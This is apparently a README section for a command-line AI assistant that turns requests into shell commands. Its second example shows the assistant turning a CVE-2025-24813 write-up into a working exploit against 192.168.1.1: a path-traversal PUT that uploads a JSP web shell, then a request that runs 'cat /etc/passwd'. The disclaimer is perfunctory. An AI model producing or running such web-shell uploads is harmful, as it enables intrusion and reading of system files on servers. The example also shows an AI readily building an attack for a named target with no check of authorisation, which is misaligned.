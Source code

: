 ### 範例輸出
```plaintext
Explain:
`tar` 命令用於將多個檔案和目錄封存成一個檔案，而 `gzip` 用於壓縮該封存檔。

*   `tar`: 封存工具。
    *   `-c`: 建立新的封存檔。
    *   `-z`: 使用 gzip 壓縮。
    *   `-v`: 顯示詳細輸出（可選）。
    *   `-f`: 指定封存檔名稱。
    *   `-C`: 更改目錄到指定的路徑後再執行指令。這對壓縮相對路徑非常有用。
*   `gzip`: 壓縮工具 (透過 `tar` 的 `-z` 選項使用)。
`~/project`: 指定要封存和壓縮的資料夾。 如果資料夾名稱包含空格，則必須將其用引號括起來。 使用 `-C` 選項，我們可以導航到 "project" 資料夾的父目錄，並指定資料夾名稱，以便正確儲存相對路徑。
Command > tar -czvf project.tar.gz -C ~ project # 如果系統沒有 tar，請執行：sudo apt-get install tar
```

```
ai -a ../CVE-2025-24813/README.md 對192.168.1.1使用
Running in Bash
Model: gemini-2.0-flash
Explain:
该解决方案使用`curl`命令模拟PoC步骤，通过PUT请求上传包含恶意代码的JSP文件到目标服务器，然后通过GET请求访问该文件，执行`cat /etc/passwd`命令。

*   **步骤1：上传恶意JSP文件**

    *   `curl -X PUT`: 使用PUT方法发送HTTP请求。
    *   `"http://192.168.1.1/uploads/../webapps/ROOT/updates.jsp"`: 目标URL，利用路径遍历漏洞将文件上传到可执行目录。
    *   `-H "Content-Type: application/x-jsp"`: 设置Content-Type为`application/x-jsp`。
    *   `--data-raw`: 指定要上传的原始数据。
    *   `'<%...%>'`: 包含Java代码的JSP内容，用于执行命令。这段代码会创建一个表单，允许用户通过GET请求传递`cmd`参数，并在服务器上执行该命令。
    *   `-i`: 显示HTTP响应头部。
*   **步骤2：执行命令并获取结果**

    *   `curl "http://192.168.1.1/updates.jsp?cmd=cat /etc/passwd"`: 发送GET请求，通过`cmd`参数传递要执行的命令（`cat /etc/passwd`）。
    *   `-i`: 显示HTTP响应头部。

注意：
1.  该命令存在风险，仅限授权测试，严禁用于非法用途。
2.  该命令会尝试覆盖目标服务器上的`updates.jsp`文件，请谨慎操作。
3.  如果目标服务器没有运行在80端口，请在IP地址后添加正确的端口号 (e.g., `http://192.168.1.1:8080/...`).
Command > curl -X PUT "http://192.168.1.1/uploads/../webapps/ROOT/updates.jsp" -H "Content-Type: application/x-jsp" --data-raw '<%@ page import="java.io.*" %><html><body><form method="GET"><input type="text" name="cmd"><input type="submit" value="Run"></form><% if(request.getParameter("cmd") != null) {Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));BufferedReader r = new BufferedReader(new InputStreamReader(p.getInputStream()));String l; while((l=r.readLine())!=null){ out.println(l+"<br>"); } } %></body></html>' -i; curl "http://192.168.1.1/updates.jsp?cmd=cat /etc/passwd" -i # 仅限授权测试，严禁用于非法用途. 如果服务器端口不是80，请修改URL (e.g., http://192.168.1.1:8080/...)
```

## 互動模式
啟動互動模式，隨時輸入需求：
```bash
ai --interactive
```
在互動模式下輸入指令，還可以直接執行。
